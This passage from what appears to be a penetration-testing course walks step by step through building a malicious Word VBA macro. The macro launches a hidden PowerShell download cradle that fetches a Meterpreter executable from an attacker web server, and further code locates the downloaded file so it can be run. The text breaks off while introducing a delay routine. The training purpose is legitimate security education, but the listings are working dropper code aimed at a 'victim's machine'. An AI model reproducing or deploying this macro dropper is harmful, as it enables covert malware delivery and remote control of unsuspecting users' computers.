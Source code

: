 ```
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')
```

> Listing 24 - PowerShell one-liner to download Meterpreter executable

Let's embed this into our Word macro using VBA and have PowerShell do the heavy lifting for us. We will slowly build it here, piece by piece, and then review the completed code.

Most PowerShell download cradles use HTTP or HTTPS, but it is possible to make a PowerShell download cradle[4](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-4) that uses TXT records[5](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-5) and a DNS transport.

As an overview, we'll set up a download cradle by converting our PowerShell string to work in VBA. Then we will give the system time to download the file and finally we will execute the file.

Let's start writing our VBA code. The first step is to declare our string variable and fill that string with the code of our PowerShell download cradle. Next, we'll use the _Shell_ method to start PowerShell with the one-liner as an argument. We'll then instruct the _Shell_ method to run the code with the output hidden from the user.

The code segment shown in Listing 25 will download the file to our victim's machine:

```
Dim str As String
str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
Shell str, vbHide
```

> Listing 25 - VBA code to invoke the PowerShell download cradle

Before executing this code, we must place the Meterpreter executable (msfstaged.exe) on our Kali web server along with a multi/handler listener.

To execute the Meterpreter executable through VBA, we must specify the full path. Luckily, downloaded content will end up in the current folder of the Word document and we can obtain the path name with the _ActiveDocument.Path_[6](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-6) property as shown in Listing 26.

```
Dim exePath As String
exePath = ActiveDocument.Path & "\" & "msfstaged.exe"
```

> Listing 26 - Getting file path from ActiveDocument.Path

Since we are downloading the Meterpreter executable from a web server and the download time may vary, we must introduce a time delay. Unfortunately, Microsoft Word does not have a wait or sleep VBA function like Excel, so we'll implement a custom _Wait_ method using a _Do_[7](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-7) loop and the _Now_[8](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-8) and _DateAdd_[9](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-9) functions.
